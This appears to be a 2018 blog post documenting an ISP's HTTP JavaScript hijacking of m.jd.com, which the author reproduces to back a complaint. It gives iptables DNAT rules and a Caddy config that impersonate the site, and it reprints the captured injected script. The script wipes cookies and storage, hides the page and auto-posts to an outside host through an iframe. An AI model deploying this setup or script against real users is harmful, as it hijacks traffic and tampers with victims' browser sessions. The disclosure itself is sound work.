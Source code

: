 ```yaml
---
title: Simple HTTP Hijacking
date: 2018-06-08 11:01:11
tags:
  - Tech
---
```


# Preface

As a man heavily relies on network stablity, I connected to Internet via CT Network.

However, after experiencing the DNS response packet fully-filled with alphabet within two days, I experienced a HTTP JavaScript Hijacking again. This time, they hijacked ```m.jd.com:80``` . I reproduced this "feature" using my Arch Linux PC Chrome, iPad Safari, iPad Chrome again and again.

I will provide my packet capture files here.

DNS Capture:  [PCAP File](/asset_files/udp53_filledNONSENSE.pcap)

Hijack Capture: [CHLS File - Charles Proxy](/asset_files/jd_hijack_ipad.chls)

They still don't admit it. And they asked me if they could go to my house and check it themselves. I accepted. However, the process of reproduction is tested under a very clear environment. Now, they set up a whitelist and want to cheat me.

I won't accept any cheat. Now, I started to deploy a hijack by myself now.


# Deployment

## Add NAT to redirect traffic

>`REDIRECT` alters the destination IP address to send to the machine itself. In other words, locally generated packets are mapped to the 127.0.0.1 address. It's for redirecting local packets. If you only want to redirect the traffic between services on the local machine, it will be a good choice.

> `DNAT` is actual [Network Address Translation](http://en.wikipedia.org/wiki/Network_address_translation). If you want packets destinated outside of the local system to have the destination altered, it's the better choice of the two, as `REDIRECT` will not work.


iptables Config

```bash
# sysctl -w net.ipv4.ip_forward=1
# iptables -A FORWARD -m state --state ESTABLISHED,RELATED -j ACCEPT
# iptables -t nat -A PREROUTING -p tcp -m tcp -s <SOURCE IP> -d <DESTINATION IP> -j DNAT --to-destination <WEB SERVER IP>:<PORT>
```

## Caddy for listening on port 80

Caddy Config

```
http://m.jd.com:80 {
   timeouts none
   log stdout
   root /tmp/testweb
}
```

/tmp/testweb/index.html (File dumped from pcap file)

```html
<!DOCTYPE html><html><head><title></title></head><body><script type="text/javascript">function qs(n,m,v,u){u=u||D.URL;var t=u.match(eval('/(\\?|#|&)('+n+')=([^&]*)(&|$)/i'));if(t){m=m||t[2];v=t[3]||v}return m&&v?'&'+m+'='+v:''}function fc(){var h=location.host,x='=;expires='+new Date(0).toUTCString(),y=x+';path=',z=y+'/;domain=',l=[x,y,y+'/',z+h,z+h.substr(h.indexOf('.'))],o=D.cookie.match(/[^ =;]+(?=\=)/g);if(o&&S)for(var i=o.length;i--;)for(var j=5;j--;)D.cookie=o[i]+l[j];if(window.localStorage)localStorage.clear();if(window.sessionStorage)sessionStorage.clear();setTimeout(fc,500)}function fip(){var u=('http://m.quanwangfa.com/').replace(/(\?|#)&/g,'$1');D.body.appendChild(D.createElement('iframe')).src="javascript:var D=document;D.write(\"<html><body><form method='post'action='"+u+"'><input name='t'value='"+location.host+"'/><input name='p'value='0'/><input name='g'value='_top'/><input type='submit'id='s'/></form></body></html>\");var s=D.getElementById('s');if (s.click) s.click();D.close()";setTimeout(function(){if(S){D.cookie='home=s';location.reload()}},3000)}var D=document,d=D,S=!D.cookie.match(/home=s/i);D.body.style.visibility='hidden';D.oncontextmenu=function(){return false};fc();fip()</script></body></html>
```

# Done!

Tested. 

Update: 2 weeks after I report to MIIT, still can be reproduced on my HUAWEI device.

# Referrence

https://serverfault.com/questions/179200/difference-beetween-dnat-and-redirect-in-iptables
http://xstarcd.github.io/wiki/Linux/iptables_forward_internetshare.html
https://my.oschina.net/tridays/blog/785483
